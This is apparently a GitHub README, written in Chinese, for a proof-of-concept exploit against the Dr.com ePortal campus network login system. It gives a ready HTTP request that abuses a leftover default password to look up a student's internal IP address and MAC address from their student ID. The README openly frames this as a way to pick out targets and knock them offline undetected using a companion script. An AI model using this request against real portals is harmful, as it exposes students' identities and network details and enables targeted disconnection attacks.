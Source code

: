 # Dr.com Got ur Id
Dr.com Eportal校园网认证系统未授权可根据学号获取内网ip地址

😎测试版本: Guangzhou Hotspot Software Technology Co., Ltd. © 2020 EPortal4.1.3

🥳效果: 用此脚本可根据用户学号获取到其内网对应的ip地址，配合DrcomCutdown脚本可实现精准打击，在神不知鬼不觉的情况下可以对任意目标实施无接触断网。

## POC
```
GET /eportal/portal/online_list?user_account=&user_password=123&wlan_user_mac=000000000000&wlan_user_ip={ipToParseInt}&lang=en HTTP/1.1
Host: XX.XX.XX.XX:XX
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection:
```

## Principle
其实这个洞不应该说是未授权，因为要获取到信息的话讲道理是需要user_account和user_password这两个关键参数的，但是在翻看接口调用js的时候发现有个默认账户（user_acount参数留空，user_password填123，可能是历史遗漏debug用的？）
所以在调用的时候只需要知道wlan_user_ip就好了。
如果漏洞存在的话，可以获取到以下信息：
```
jsonpReturn({"result":1,"msg":"Access to user online information succeeded!","list":[{"online_session":55188,"online_time":"2024-06-01 11:15:23","online_ip":"XX.XX.XX.XX","online_mac":"{macAddress}","time_long":"4994","uplink_bytes":"6170","downlink_bytes":"65064","dhcp_host":"","device_alias":"","nas_ip":"0","user_account":"{学号}","is_owner_ip":"1"}],"total":1});
```

